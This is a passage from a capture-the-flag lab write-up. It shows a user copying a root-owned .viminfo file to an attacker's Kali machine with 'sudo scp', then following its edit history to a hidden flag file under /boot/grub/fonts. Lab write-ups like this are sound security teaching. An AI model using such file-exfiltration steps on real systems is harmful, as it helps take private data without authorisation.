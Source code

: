 Interesting to see the .viminfo file owned by root in this users home directory. Let's copy it to our Kali machine using scp like before:

```text
dennis@ip-10-10-9-16:/home/ubuntu$ sudo scp .viminfo kali@10.14.6.200:/home/kali
kali@10.14.6.200's password: 
.viminfo
```

Now we can have a look at the contents of it. At the end of the long file we see this:

```text
# History of marks within files (newest to oldest):
> /etc/ssh/sshd_config
        "       52      25
        ^       52      26
        .       52      25
        +       52      25
> /etc/sudoers
        "       21      38
        ^       21      39
        .       21      27
        +       21      27
> /boot/grub/fonts/flagTwo.txt
        "       1       31
        ^       1       32
        .       1       31
        +       1       31
> /var/www/html/item.php
        "       144     33
        ^       144     34
        .       144     15
        +       144     15
```

We've found flag 2, which has been hidden in the fonts directory. Let's have a look:

```text
ennis@ip-10-10-9-16:/home/ubuntu$ ls -lsa /boot/grub/fonts
total 2356
   4 drwxr-xr-x 2 root root    4096 Feb 16  2019 .
   4 drwxr-xr-x 5 root root    4096 Nov 14  2018 ..
   4 -rw-r--r-- 1 root root      33 Feb 16  2019 flagTwo.txt
2344 -rw-r--r-- 1 root root 2398585 Nov 14  2018 unicode.pf2
```

It's owned by root but world readable. So no need to scp it across, we can just cat and look at the contents:

```text
dennis@ip-10-10-9-16:/home/ubuntu$ cat /boot/grub/fonts/flagTwo.txt
<<HIDDEN>>
```

That was our last flag, for some reason there is no flag 4!

All done. See you next time.
